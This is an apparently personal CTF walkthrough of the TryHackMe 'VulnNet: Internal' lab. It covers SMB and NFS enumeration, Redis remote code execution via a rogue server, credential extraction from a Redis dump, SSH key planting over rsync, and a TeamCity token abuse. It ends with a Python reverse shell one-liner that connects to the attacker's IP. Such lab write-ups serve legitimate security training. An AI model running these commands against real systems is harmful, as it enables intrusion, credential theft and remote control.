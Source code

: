 ```yaml
---
date: 2025-02-20
categories: [CTF, THM]
title: "THM - VulnNet: Internal"
tags: ['privilege escalation', 'python', 'rce', 'reverse shell', 'smb', 'smbmap', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "VulnNet Internal - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - VulnNet: Internal

```bash
rustscan -a 10.10.218.65 --ulimit 5000 -- -A
```

![image1](../resources/2a3c44695df3425dbfd814a4fa31ca4b.png)

![image2](../resources/cad653e3ffce4c7ea3a61d896e204d71.png)

- SMBMap:

```bash
smbmap -H 10.10.218.65 -u Guest

```

![image3](../resources/ba1ff9b5304742928cc6071b46c54a0a.png)

```bash
smbclient //10.10.218.65/shares -U Guest

cat services.txt

```
- Connect to redis:

```bash
redis-cli -h 10.10.218.65

```

![image4](../resources/e37cf6ea1a194d189fc7f64e78a6e91d.png)

This means that you need valid credentials to access the Redis instance

- Moving on to NFS (port 2049):

```bash
showmount -e 10.10.218.65

```

![image5](../resources/75210170be5c4e1680843b34f8ff7d74.png)

```bash
mkdir /tmp/vulnnet

sudo mount -t nfs <ip>:<remote_folder> <local_folder> -o nolock

sudo mount -t nfs 10.10.218.65:/opt/conf /tmp/vulnnet -o nolock

```

![image6](../resources/f9f1783652e94019897142ade5bcee6a.png)


![image7](../resources/a750be5423b848d6ab4329387c296136.png)

- Looking in redis directory we get the redis.conf:

![image8](../resources/35252db72c29414e9e97d53121d9c7a1.png)

- Connect to redis again with password:

```bash
redis-cli -h 10.10.218.65 -a B65Hx562F@ggAZ@F

```

![image9](../resources/e0f847875334497097a0bca87a068878.png)

**Redis version: 4.0.9**

**<u>Exploit:</u>**

```bash
redis-cli -h 10.10.193.202 -a B65Hx562F@ggAZ@F

> KEYS *
> get "internal flag"
> LRANGE authlist 1 20

```

![image10](../resources/2025effebecd42fbad2ff91882d9c7db.png)

**OR**


![image11](../resources/ec4b3f4b36a2489185d95f44df0e5b36.png)

<https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis>

<https://github.com/Jean-Francois-C/Database-Security-Audit/blob/master/Redis%20database%20penetration%20testing>

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server.git

./redis-rogue-server.py --rhost 10.10.218.65 --lhost 10.8.24.66 --passwd B65Hx562F@ggAZ@F

```

![image12](../resources/a10b200ef39843d3bdad88fec2240951.png)

- Ran it again
**Interactive:**


![image13](../resources/eac279c5e43342c6b4aef1a46d0ded5d.png)

**Reverse shell:**


![image14](../resources/139332f3f3af4ac9b630b81aa8d36a50.png)


![image15](../resources/6aff8937631d4a2989baf8f2d7c9ca7d.png)

- Upgrade shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- List current directory - Found dump.rdb file:

![image16](../resources/ba7a6b5e83a3493cb09b27771258a5f9.png)

Copy file to Kali:


![image17](../resources/aa1775285df84b20ad6ca6707375f323.png)

Use rdbtools (more readable)

<https://github.com/sripathikrishnan/redis-rdb-tools>

<https://medium.com/@D0rkerDevil/how-i-found-credential-enriched-redis-dump-2b9e808024c4>

```bash
git clone https://github.com/sripathikrishnan/redis-rdb-tools

cd redis-rdb-tools
sudo python setup.py install
rdb --command json dump.rdb -f output.json

```
cat json or copy into a jsonviewer


![image18](../resources/41e377f6f7fe40388d50f29e75f8115f.png)


![image19](../resources/5a3bcf59870046a1a7210cf0034ca675.png)


![image20](../resources/20e9f37bb9d24f27ac24f10add8c7cc0.png)

rsync://rsync-connect@127.0.0.1 with password **Hcg3HP67@TW@Bc72v**

- We know rsync is being used
**Rsync is a utility for efficiently transferring and synchronizing files between computers, drives and networks**

<https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync>

- List the shared folders:

```bash
rsync -av --list-only rsync://10.10.193.202

```

![image21](../resources/95db062e9f5547c19c33c72af1cf170d.png)

- Connect to folder:

```bash
rsync rsync://rsync-connect@10.10.193.202/files

```

![image22](../resources/21f618793743439c9ff0f07cfab1c868.png)

- Copy remote folder's files to Kali:

```bash
mkdir rsync_folder

rsync -av rsync://rsync-connect@10.10.193.202/files rsync_folder

```

![image23](../resources/47c1ae9ec505433e9fa15aa48e0752d9.png)

This recursively transfers all files from the directory \<shared_name\> on the machine \<IP\>into the rsync_folder directory on the local machine


![image24](../resources/ec388f97d5e34a51ab2de78892b3c9dc.png)

```bash
cat user.txt

```
- SSH folder is empty

![image25](../resources/7fe873bdc131490298e89db76231a78d.png)

- Create ssh keypair and upload:

```bash
ssh-keygen -t rsa

```

![image26](../resources/88da37a5a28b4e98ae5adb0f62ae3b5f.png)

```bash
chmod 600 id_rsa

mv id_rsa.pub authorized_keys

chmod 600 authorized_keys

rsync -av authorized_keys rsync://rsync-connect@10.10.193.202/files/sys-internal/.ssh

```
- SSH in:

```bash
ssh -i id_rsa sys-internal@10.10.193.202

```
- TeamCity folder in /
<https://exploit-notes.hdks.org/exploit/web/teamcity-pentesting/>


![image27](../resources/ada00581f25447f9b9ea0e1ebfa5f59f.png)

- Check network connections:

```bash
ss -pant

```

![image28](../resources/3e07c2fb3573423398aa6901dc1607d1.png)

Port 8111 is the default port for TeamCity and it's running locally

- Set up port forwarding
<https://www.hackingarticles.in/port-forwarding-tunnelling-cheatsheet/>

```bash
ssh -L 8111:localhost:8111 sys-internal@10.10.193.202 -i id_rsa

```
(The first port number can be anything - used on Kali)

- Go to 127.0.0.1:8111

![image29](../resources/07c3c2eb0ea74ab1b45484847ca7efaf.png)

- Click on Super User link

![image30](../resources/75abd56cf95840e5b6899471a0beb94f.png)
- On the SSH session:

```bash
grep -rnw /TeamCity/ -e "token" 2>/dev/null

```

![image31](../resources/26cd7ef9130a4928804b71b96fe3ff89.png)

- Log in with the token - 8807557903946249045

- Get root shell:
<https://exploit-notes.hdks.org/exploit/web/teamcity-pentesting/>


![image32](../resources/29186eef919c4ccdbd83f9ba938f9cb1.png)

```bash
export RHOST="10.8.24.66";export RPORT=4443;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

```

![image33](../resources/ea40f4f34de54db9b08a7a2b36bdfd91.png)